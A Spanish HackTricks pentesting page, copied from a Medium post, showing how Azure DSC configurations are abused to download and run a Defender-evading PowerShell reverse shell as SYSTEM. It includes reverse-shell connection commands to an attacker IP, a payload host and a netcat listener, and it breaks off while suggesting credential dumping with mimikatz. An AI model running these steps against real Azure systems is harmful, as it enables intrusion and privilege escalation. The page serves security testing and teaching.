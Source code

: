# Az - Estado de Configuración RCE

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

**Este post fue copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparación de la infraestructura del servidor remoto (C2) <a href="#f0fa" id="f0fa"></a>

Voy a alojar una versión reducida de la carga útil Nishang Invoke-PowerShellTcp.ps1 desde el servidor remoto "40.84.7.74", que es la caja Kali. El nombre de la carga útil será "RevPS.ps1". Para evitar que el script de Nishang sea eliminado por Windows Defender por cualquier motivo (tal vez prefieras dejar caer el archivo en el disco) tengo una versión ligera aquí que puedes usar que evitará Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Esto será alojado por un simple servidor Python Simple en la caja Kali.

### Paso 1 — Crear archivos <a href="#89de" id="89de"></a>

Necesitaremos crear otro archivo de configuración DSC. Se puede descargar una plantilla aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este archivo de configuración utilizará la misma función de escritura de archivos que utilizamos anteriormente. Esta vez, el contenido incluye código para descargar y ejecutar una carga útil desde nuestro servidor remoto. Además, estamos utilizando una función de tarea programada disponible en el módulo _ComputerManagementDsc_. La función de tarea programada será el papel clave en la ejecución y nos proporcionará privilegios de SYSTEM más adelante.

También descargaremos un script que se utilizará para publicar nuestra configuración en la VM. Esto se encuentra aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Estos archivos servirán como plantilla. **Deberás completar los nombres de variables y parámetros con lo que estás usando**. Esto incluye los nombres de recursos, las rutas de archivos y los nombres de servidores externos/cargas útiles que estás utilizando. Por favor, consulta los comentarios en el código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Paso 2 — Comprimir archivo de configuración <a href="#c2c2" id="c2c2"></a>

Con nuestros dos archivos creados, comprimiremos el archivo **'reverse\_shell\_config.ps1'** para que pueda ser enviado a la cuenta de almacenamiento

```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Paso 3 — Establecer contexto de almacenamiento y cargar <a href="#bed9" id="bed9"></a>

Nuevamente, configuraremos el contexto de nuestra cuenta de almacenamiento, que ya he hecho. Ya tengo un contenedor llamado '**azure-pentes**t', así que aquí es donde publicaré el mío:

```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### Paso 4 — Preparar la caja Kali <a href="#20fb" id="20fb"></a>

En nuestra caja Kali, simplemente podemos _wget_ nuestra carga útil de PowerShell. El script de reverse-shell sin formato se encuentra aquí: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).

```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Necesitamos editar el script de reverse-shell agregando nuestros parámetros, para que la VM de Windows sepa dónde conectarse una vez que se ejecute. En mi caso, agrego lo siguiente:

```
RevPShell -Reverse 40.84.7.73 443
```

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Paso 5 — Publicar archivo de configuración <a href="#9ad6" id="9ad6"></a>

Ahora ejecutaremos nuestro archivo de configuración. Lo tengo configurado para que se publique en el escritorio para una mejor visualización, pero se puede publicar en cualquier lugar. ¡Después de un par de minutos, veremos que el script de reverse-shell ha sido publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Paso 6 — Alojar carga útil y configurar el oyente <a href="#c55f" id="c55f"></a>

Una vez que publiquemos la configuración, podemos iniciar simultáneamente un servidor Python SimpleHTTPServer sobre el puerto 80 para alojar la carga útil, junto con un oyente netcat para capturar la conexión:

```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```

¡Vemos que la tarea programada se ha ejecutado y nuestra carga útil se ha recuperado y ejecutado en memoria con privilegios de **SYSTEM**!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusión <a href="#1ec2" id="1ec2"></a>

Esto ahora abre la puerta a muchas posibilidades. Como tenemos una shell en ejecución como **SYSTEM**, podemos volcar credenciales con mimikatz (potencialmente arriesgado dependiendo de lo maduro que sea el EDR para los recursos en la nube). Si se descargan credenciales, hay una